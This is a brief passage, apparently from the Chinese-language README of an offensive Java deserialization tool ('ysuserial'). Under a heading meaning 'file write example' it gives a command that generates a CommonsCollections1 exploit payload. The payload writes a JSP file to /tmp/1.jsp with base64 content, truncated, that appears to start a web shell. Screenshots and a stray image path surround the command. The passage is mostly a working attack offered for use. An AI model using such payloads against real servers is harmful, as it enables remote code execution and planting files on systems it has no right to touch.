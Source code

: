 ![image-20220618204632444](images/image-20220618204632444.png)

**文件写入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'WF-/tmp/1.jsp#PCVAcGFnZSBwYWdlR.....'
```

效果图：

![image-20220618205022904](images/image-20220618205022904.png)
